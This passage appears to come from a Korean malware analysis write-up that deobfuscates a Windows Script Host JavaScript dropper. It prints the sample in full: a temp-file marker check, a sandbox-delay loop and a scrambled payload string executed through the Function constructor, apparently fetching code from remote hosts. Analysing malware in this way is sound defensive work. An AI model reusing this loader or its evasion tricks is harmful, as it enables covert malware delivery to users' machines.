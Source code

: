 해당 함수에 

```javascript
var myMsgBox=new ActiveXObject("wscript.shell")
myMsgBox.Popup (EO49[FQ96[qN252]])
```

를 추가해서 FQ96[xj34]에 무슨데이터가 담기는지 볼 터이다.

그러자

```javascript
function Function() {
    [native code]
}
```

라는 팝업이 떳다.

FQ96[xj34]를 통해 코드를 실행하는지 알게 되었다.

(참고로 xj34는 3이므로 정확히는 FQ96[3]이 코드를 실행하게 해준다.)



아까 위에서 난독화된 코드를 좀 정리해보자.

```javascript
nubper = '';
CQ12 = WScript.CreateObject("Scripting.FileSystemObject");
OA92 = CQ12["Ge" + "tSpe" + "ci" + "alF" + "olde" + "r"](4 - 2) + "\\Hv129167.tmp";
if (CQ12.FileExists(OA92)) WScript.Quit();
CQ12.CreateTextFile(OA92, true).Close();
fo32 = 6;
while (fo32 < 15092609) {
    Math["" + "s" + "" + "q" + "" + "r" + "" + "t" + ""]((fo32));
    fo32 = fo32 + 2 - 1;
}
FQ96[5 - 2](fW4('tast.u6s8 r=W=(=  f2i0 0})  ;{e svlaarf  Snyr4u3t e=r  W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e  ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0  F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);
tcgmac = FQ96;
```

line 4와 line 9에서 문자 분리 해 놓은것을 제대로 바꿔 보겠다.

```javascript
nubper = '';
CQ12 = WScript.CreateObject("Scripting.FileSystemObject");
OA92 = CQ12["GetSpecialFolder"](4 - 2) + "\\Hv129167.tmp";
if (CQ12.FileExists(OA92)) WScript.Quit();
CQ12.CreateTextFile(OA92, true).Close();
fo32 = 6;
while (fo32 < 15092609) {
    Math["sqrt"]((fo32));
    fo32 = fo32 + 2 - 1;
}
FQ96[5 - 2](fW4('tast.u6s8 r=W=(=  f2i0 0})  ;{e svlaarf  Snyr4u3t e=r  W{r)8e6(.hrcetsapco}n s;e)T(edxnte;s .i6f8 r(W( S;y)4e3s.lianfd e,x4O4fY(y\"+@\"\"=+iynYu4b4g+e\"e@x\"l,t h0h)e)?=\"=+-\'1p)h p{. mWuSrcorfi/p\'t+.]s5l5eDejp[(4282a2Z2+2\')/;/ :}p tetlhs\'e  ,{\' TSEyG4\'3( n=e pSoy.4638.rrWe p{lyarcte (;\")@0\"3++y0Y74,42+(\"]@\"\"r,t\"s\"b)u;s \"v[a)r( gfnSi8r5t S=o tS.y)4(3m.ordenpalra.chet(a/M( \\=d {424}Y)y/ g;,) \'fPuTnTcHtLiMoXnr e(vSrde9S7.)2 L{M XrSeMt\'u(rtnc eSjtbrOientga.efrrCo.mtCphiarrcCSoWd e=( p6a8rrsWe I{n t)(3S d<9 75,51D0j)(+ 3e0l)i;h w} );;0  F=Q 9565[D3j] (;f]S\"8m5o)c(.)o;d -WdSncar-iepbt..wQwuwi\"t,(\")e;d .}j 4}o .ewlwswe\" ,{\" lWpS.cdrcilp-tm.esjlaeneypw(.2t2s2e2t2.)w;w w}\" [j D=5 54+8+a;Z}'))(fo32);
tcgmac = FQ96;
```